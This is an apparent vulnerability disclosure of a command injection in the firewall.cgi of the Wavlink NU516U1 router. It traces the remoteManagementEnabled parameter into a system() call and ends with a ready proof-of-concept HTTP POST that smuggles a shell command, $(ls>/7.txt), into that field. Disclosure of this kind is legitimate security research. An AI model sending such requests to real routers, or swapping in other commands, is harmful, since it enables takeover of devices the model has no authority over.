 # Wavlink NU516 websSysFirewall
### Overview
vendor: Wavlink

product: NU516U1

version: M16U1_V240425

type: Command Injection
### Vulnerability Description
Wavlink NU516U1 M16U1_V240425 were discovered to contain a command injection via the remoteManagementEnabled parameter in the sub_401B30 function of the file firewall.cgi.
### Vulnerability details
In the ftext function, obtain the value of the firewall parameter via user input.

![](images/12.png)

Setting the value of the firewall parameter to websSysFirewall will call the sub_401B30 function.

![](images/16.png)

In the sub_401B30 function, the value of the remoteManagementEnabled parameter is obtained via a post request. Then, the value of the remoteManagementEnabled parameter is passed to the v12 variable via the sprintf function, which in turn is passed to the system function.

![](images/17.png)

### POC
```
POST /cgi-bin/firewall.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 133
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/html/networkSetting.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=1938672303
Connection: keep-alive

firewall=websSysFirewall&blockSynFloodEnabled=1&pingFrmWANFilterEnabled=1&blockPortScanEnabled=1&remoteManagementEnabled=$(ls>/7.txt)
```
